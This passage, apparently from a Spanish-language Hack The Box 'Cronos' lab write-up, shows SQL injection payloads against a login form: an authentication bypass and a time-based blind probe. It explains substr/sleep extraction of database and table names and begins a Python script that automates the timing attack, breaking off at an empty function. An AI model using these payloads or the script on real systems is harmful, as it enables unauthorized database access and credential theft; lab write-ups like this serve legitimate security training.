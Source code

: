 - `'` - No vemos nada
- `' or 1=1-- -` - Logramos ingresar al panel

![""](/assets/images/htb-cronos/cronos-web3.png)

- `' or sleep(5)-- -` - Vemos que la página tarda 5 segundos en responder, por lo que podríamos tratar de obtener credenciales de la base de datos.

Para hacerlo más interesante y aprender un poco, vamos a hacer una inyección SQL a ciegas (***SQLi blind***); por lo que debemos pensar una forma obtener información utilizando el comando `sleep(t)`. Para esto, debemos preguntar al servidor si la información que buscamos empieza por un caracter, si es verdadero que tarde `x` tiempo en responder y si es falso, que no tarde nada; mediante comandos de SQL sería `if( substr( database(),x,1) = 'a', sleep(5), 1)` en donde `x` nos indica la posición de los caracteres. Por lo tanto:

- **Nombre de la base de datos** - `if ( substr( database(),x,1 ) = 'a', sleep(5), 1)`
- **Nombre de las tablas** - `if ( substr( table_name,x,1 ) = 'a', sleep(5), 1) where table_schema=<<nombre_base_de_datos>> limit y,1` en donde `y` es un número que nos indica el número de la tabla, es decir `y=1` es la primera tabla, `y=2` es la segunda tabla y así sucesivamente.
- **Nombre de las columnas** - 
- **Información** -

Para facilitarnos el trabajo, vamos a crear un script en python para obtener todo lo anterior, empezando primero con el nombre de la base de datos.

```python
#!/usr/bin/python3
#codgin: utf-8

import time, requests, signal, sys
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdefghijklmnopqrstuvwxyz'

def makeRequest(sqli):
    data_post = {
        'username' : '%s' % sqli,
        'password' : 'loquesea'
    }
    time_start = time.time()
    r = requests.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 3:
        return 1

def payload():
```